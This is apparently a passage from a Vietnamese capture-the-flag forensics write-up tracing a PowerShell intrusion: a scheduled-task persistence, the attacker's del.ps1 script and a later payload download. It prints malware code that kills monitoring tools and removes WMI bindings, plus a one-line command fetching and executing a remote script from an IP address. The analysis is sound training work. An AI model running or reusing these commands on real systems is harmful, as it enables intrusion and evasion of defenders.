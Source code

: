 ![ảnh](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/9c7fab3d-f78f-4edf-b367-bf920280b9cb)

* file thứ hai được tải về là file del.ps1
* trong file checking.ps1 có hàm CleanerEtc đã tải xuống file del.ps1 từ địa chỉ ip 84

![ảnh](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/f9ef3d47-64ae-40ad-9ad9-23d47a9274f2)

# Q10:

![ảnh](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/3e193501-468d-499b-b152-bab9647cd6ab)

* kẻ tấn công đã tạo persistence bằng schedule task, tên của task đó là "\Microsoft\Windows\MUI\LPupdate"

![ảnh](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/86ab784f-f880-43c7-aeac-50b3f56fe495)

# Q11:

![ảnh](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/4ed9c1c4-e128-437b-b3b1-56aa2bd2fb65)

* mình đọc file del.ps1 thì thấy file này có hành vi dừng những process quan trọng để phục vụ cho mục đích tấn công

```
Get-WmiObject _FilterToConsumerBinding -Namespace root\subscription | Remove-WmiObject

$list = "taskmgr", "perfmon", "SystemExplorer", "taskman", "ProcessHacker", "procexp64", "procexp", "Procmon", "Daphne"
foreach($task in $list)
{
    try {
        stop-process -name $task -Force
    }
    catch {}
}

stop-process $pid -Force
```

* mình search được đây là bước Defense Avasion - TA0005

https://attack.mitre.org/

# Q12: 

![ảnh](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/2f1d822b-f834-4fe5-8c28-507c7204aa60)

* sau khi tạo persistence, file checking.ps1 đã tải xuống một file ichigo-lite.ps1

`Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('http://87.96.21.84/ichigo-lite.ps1'))`
